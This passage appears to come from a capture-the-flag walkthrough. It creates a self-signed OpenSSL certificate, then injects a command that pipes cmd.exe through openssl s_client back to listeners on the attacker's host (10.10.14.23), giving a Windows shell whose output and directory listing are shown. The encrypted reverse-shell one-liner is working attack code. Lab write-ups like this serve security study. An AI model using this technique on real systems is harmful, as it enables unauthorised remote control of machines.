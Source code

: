 ~~~
root@kali:~# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
Generating a RSA private key
.................................................................................................................................++++
..........................++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
root@kali:~# ls -la 
-rw-r--r-- 1 root root 1939 Mar 10 13:25 cert.pem
-rw------- 1 root root 3272 Mar 10 13:24 key.pem
{% endhighlight %}

{% highlight shell %}
# 10.10.14.23 | "C:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.23:73 | cmd.exe | "C:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.23:136

root@kali:~# openssl s_server -quiet -key key.pem -cert cert.pem -port 73

Pinging 10.10.14.23 with 32 bytes of data:
Reply from 10.10.14.23: bytes=32 time=34ms TTL=63
Reply from 10.10.14.23: bytes=32 time=38ms TTL=63

Ping statistics for 10.10.14.23:
    Packets: Sent = 2, Received = 2, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 34ms, Maximum = 38ms, Average = 36ms

root@kali:~# openssl s_server -quiet -key key.pem -cert cert.pem -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
{% endhighlight %}

After that, by writting a command on terminal port 73 and refrashing the page, we can execute our commands.

{% highlight shell %}
 Directory of C:\users\alan\desktop

07/07/2018  11:08 PM    <DIR>          .
07/07/2018  11:08 PM    <DIR>          ..
07/07/2018  11:07 PM               160 note-draft.txt
               1 File(s)            160 bytes
               2 Dir(s)  15,437,340,672 bytes free
 Volume in drive C has no label.
 Volume Serial Number is FAD9-1FD5
{% endhighlight %}
~~~